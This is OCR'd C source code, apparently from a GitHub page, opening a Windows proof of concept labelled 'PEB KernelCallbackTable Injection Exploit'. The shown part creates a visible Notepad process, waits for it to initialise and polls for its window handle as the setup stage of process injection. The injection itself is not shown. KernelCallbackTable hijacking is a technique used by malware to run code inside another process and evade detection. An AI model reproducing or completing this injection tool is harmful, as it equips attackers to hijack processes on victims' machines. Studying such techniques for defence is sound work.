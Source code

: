         printf( COLOR_YELLOW_BOLD "[*] Starting PEB KernelCallbackTable Injection Exploit...\n\n" COLOR_RESET );
    
        // Step 1: Create a new Notepad process (ensure it is visible to the user)
        PROCESS_INFORMATION pi = { 0 };
        STARTUPINFO si = { sizeof( STARTUPINFO ) };
        si.dwFlags = STARTF_USESHOWWINDOW;
        si.wShowWindow = SW_SHOW;
    
        printf( COLOR_YELLOW_BOLD "\t[*] Creating new Notepad process...\n" COLOR_RESET );
        if ( !CreateProcess(
            L"C:\\Windows\\System32\\notepad.exe",
            NULL,
            NULL,
            NULL,
            FALSE,
            CREATE_NEW_CONSOLE,
            NULL,
            NULL,
            &si,
            &pi
        ) )
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to create Notepad process. Error: %d\n" COLOR_RESET, GetLastError() );
            return -1;
        }
    
        printf( COLOR_GREEN_BOLD "\t[+] Notepad process created successfully. PID: %d\n" COLOR_RESET, pi.dwProcessId );
    
        // Step 2: Wait for the new process to initialize
        printf( COLOR_YELLOW_BOLD "\t[*] Waiting for Notepad initialization...\n" COLOR_RESET );
        WaitForInputIdle( pi.hProcess, 1000 );
    
        // Step 3: Find the Notepad window handle
        HWND hWindow = NULL;
        DWORD waitTime = 0;
        while ( hWindow == NULL && waitTime < MAX_WAIT_TIME )
        {
            hWindow = FindWindow( L"Notepad", NULL );
            if ( !hWindow )
            {
                Sleep( 500 );  // Wait for 500 ms before retrying
                waitTime += 500;
            }
        }
    
        if ( !hWindow )
        {
            printf( COLOR_RED_BOLD "\t[-] Failed to find Notepad window handle after waiting for %d milliseconds.\n" COLOR_RESET, MAX_WAIT_TIME );
            TerminateProcess( pi.hProcess, 0 );
            CloseHandle( pi.hProcess );
            CloseHandle( pi.hThread );
            return -1;
        }
    